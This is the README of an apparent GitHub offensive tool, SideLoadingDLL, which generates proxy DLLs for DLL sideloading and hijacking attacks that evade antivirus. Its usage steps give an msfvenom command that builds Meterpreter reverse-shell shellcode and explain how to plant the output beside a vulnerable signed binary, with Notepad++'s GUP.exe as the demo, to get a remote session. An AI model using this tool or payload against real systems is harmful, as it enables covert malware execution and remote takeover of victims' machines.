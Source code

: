 # SideLoadingDLL

Python script to generate "proxy" DLL files load unsafely by binaries on runtime, makes it super easy to perform a DLL Sideloading attack or hijacking.
This implementation makes sure that all system calls still go through ntdll.dll to avoid the usage of direct systemcalls.

See the below articles for more details
https://flangvik.com/privesc/windows/bypass/2019/06/25/Sideload-like-your-an-APT.html
https://flangvik.com/2019/07/24/Bypassing-AV-DLL-Side-Loading.html

demo's is using GUP.exe signed from NotePad++, loading a malicious libcurl sideloading malware:

Sideloading ncrypt.dll( meterpreter session)
![Meterpreter sideload](https://github.com/MaorSabag/SideLoadingDLL/blob/main/demo/screen-capture.gif)

## Dependencies
- x64 Native Tools Command Prompt for VS
- Python3

## Usage
- Find a binary that is vulnerable to SideLoading/DLL Hijacking
- Create a shellcode (msfvenom -p windows/x64/meterpreter_reverse_https LHOST=eth0 LPORT=443 -f raw -o shellcode.bin)
- Run the make.py file with the arguments needed
- Copy the files from the Output directory to the vulnerable program and make sure the injected process is open
- Run the program and get a session back!!

## Demo
- You can find the full demo in this [link](https://drive.google.com/file/d/1CR4uV-GGxm8kNZYWHtpSrjMGEgoj1Zr4/view).

## Credits 
- [Sektor7's RTO Malware Essential Course](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [thefLink](https://github.com/thefLink)'s [RecycledGate](https://github.com/thefLink/RecycledGate)
